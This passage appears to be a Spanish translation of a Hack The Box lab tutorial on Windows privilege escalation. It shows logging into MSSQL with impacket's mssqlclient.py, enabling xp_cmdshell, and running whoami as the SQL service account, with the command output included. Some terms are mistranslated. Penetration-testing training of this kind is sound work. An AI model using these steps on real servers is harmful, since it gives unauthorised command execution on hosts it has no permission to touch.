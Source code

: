   Seimpersonate y SeassignPrimaryToken

```shell-session
xnoxos@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162) 
[!] Press help for extra shell commands
SQL>
```

#### Habilitando xp_cmdshell

A continuación, debemos habilitar el`xp_cmdshell`Procedimiento almacenado para ejecutar comandos del sistema operativo. Podemos hacer esto a través del shell MSSSQL de Impacket escribiendo`enable_xp_cmdshell`. Mecanografía`help`Muestra algunas otras opciones de comando.

  Seimpersonate y SeassignPrimaryToken

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

Nota: en realidad no tenemos que escribir`RECONFIGURE`como impunket hace esto por nosotros.

#### Confirmando acceso

Con este acceso, podemos confirmar que de hecho estamos ejecutando en el contexto de una cuenta de servicio SQL Server.

  Seimpersonate y SeassignPrimaryToken

```shell-session
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

#### Recio de privilegios de la cuenta

